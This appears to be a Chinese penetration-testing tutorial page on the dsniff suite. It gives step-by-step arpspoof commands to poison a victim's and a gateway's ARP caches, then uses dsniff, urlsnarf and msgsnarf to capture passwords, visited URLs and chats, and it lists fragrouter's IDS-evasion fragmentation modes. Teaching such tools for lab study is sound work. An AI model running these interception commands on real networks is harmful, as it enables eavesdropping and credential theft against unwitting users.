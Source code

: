 ```yaml
---
title: Dsniff
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```

Dsniff是一个非常强大的工具套件，它被用来进行渗透测试。它被用来实施嗅探、网络分析等。它能够捕捉各种协议。ARPspoof和driftnet也是dsniff套件的一部分，当然还有其他套件，如：

Msgsnarf
Urlsnarf
Mailsnarf
Filesnarf
dnsspoof

在如下攻击场景中：

攻击者IP： 192.168.1.12
被攻击主机IP:192.168.1.6
路由(网关)IP：192.168.1.1

################################################################################
[](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html)

Usage: arpspoof [-i interface] [-t target] host
	-i interface 指定使用的网卡
	-c own|host|both 攻击结束后如何恢复
	-r 				双向毒化
	-t target 指定要攻击的目标
	host 			指定要拦截的主机(默认为网关)

启动Arpspoof注入攻击目标系统。攻击的方法是攻击者（192.168.6.100）发送ARP数据包，以欺骗网关（192.168.6.1）和目标系统（192.168.6.101）。
1. 下面首先欺骗目标系统，执行命令如下所示：
`arpspoof -i eth0 -t 192.168.6.101 192.168.6.1`
2. 使用Arpspoof欺骗网关。执行命令如下所示：
`arpspoof -i eth0 -t 192.168.6.1 192.168.6.101`

##########
Don't forget to enable IP forwarding on your host so that the traffic goes through your host. Otherwise victim will loose connectivity.
# echo 1 > /proc/sys/net/ipv4/ip_forward

In order to tell the victim host that now we (our MAC address) are the one belonging to the IP of the gateway enter the following command:
# arpspoof -t victim gateway

In a seperate shell we start the matching command to fool gateway to belive we are victim.
# arpspoof -t gateway victim

################################################################################

让我们开始进行ARPspoof IP转发攻击：

root@bt:~# echo 1 >> /proc/sys/net/ipv4/ip_forwardroot@bt:~# arpspoof -i eth0 -t 192.168.1.6 192.168.1.1root@bt:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.12

我刚刚启用端口转发，之后使用arpspoof（dsniff的一个插件）来执行ARP毒化攻击。开启dsniff来捕获已知协议获取密码。

root@bt:~# `dsniff -i eth0`
dsniff: listening on eth0

	如图所示，dsniff成功从受害者主机上捕获了FTP的用户名和密码，尽管这个密码是不正确的，但dsniff可以捕获受害者发送的信息。

因为攻击者的主机作为了默认的路由器（因为进行了ARP欺骗），因此受害主机传输的数据经过攻击者，攻击者很容易可以嗅探到受害者发送的信息。我们可以arpspoof所有网段内的主机，但我们的示例中只ARP欺骗了单个主机。你可以试试其他的dsniif工具，像urlsnarf。

root@bt:~# `urlsnarf -i eth0`
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]

它能捕获受害者访问网站的详细信息。你可以试试msgsnarf捕获即时聊天会话信息，我的意思是如果用户通过雅虎聊天或者任何IRC频道，通过msgsnarf可以捕获受害者所有的谈话，结束攻击需要结束arpspoof。

root@bt:~# killall arpspoof
################################################################################
0x00 fragrouter介绍

fragrouter是一个具有路由器功能的应用程序，它能够对攻击者发送的攻击流量进行分片处理之后，向攻击目标转发。

0x01 fragrouter功能

fragrouter - 入侵检测系统(IDS)逃避工具包

root@kali:~# fragrouter
版本：1.6
用法：fragrouter [-i interface] [-p] [-g hop] [-G hopcount] ATTACK

其中ATTACK是以下之一：

-B1：base-1：正常的IP转发
-F1：frag-1：有序的8字节IP分片
-F2：frag-2：有序的24字节IP分片
-F3：frag-3：有序的8字节IP分片，一个失序
-F4：frag-4：有序的8字节IP分片，一个重复
-F5：frag-5：无序的8字节片段，一个重复
-F6：frag-6：有序的8字节片段，标记最后一个Frag
-F7：frag-7：有序的16字节片段，fwd重写
-T1：tcp-1：3-whs，错误TCP校验和和FIN/RST，有序的1字节段
-T3：tcp-3：3-whs，有序的1字节段，一个重复
-T4：tcp-4：3-whs，有序的1字节段，一次重写
-T5：tcp-5：3-whs，有序的2字节段，fwd重写
-T7：tcp-7：3-whs，有序的1字节段，交织空段
-T8：tcp-8：3-whs，有序的1字节段，一个失序
-T9：tcp-9：3-whs，无序的1字节段
-C2：tcbc-2：3-whs，有序的1字节段，交织的SYN
-C3：tcbc-3：有序的1字节空段，3-whs，有序的1字节段
-R1：tcbt-1：3-whs，RST，3-whs，有序的1字节段
-I2：ins-2：3-whs，有序的1字节段，错误TCP校验和
-I3：ins-3：3-whs，有序的1字节段，不设置ACK
-M1：misc-1：Windows NT 4 SP2 - http://www.dataprotect.com/ntfrag/
-M2：misc-2：Linux IP chain - http://www.dataprotect.com/ipchains/
0x02 fragrouter用法示例
`fragrouter -i eth0 -F1`
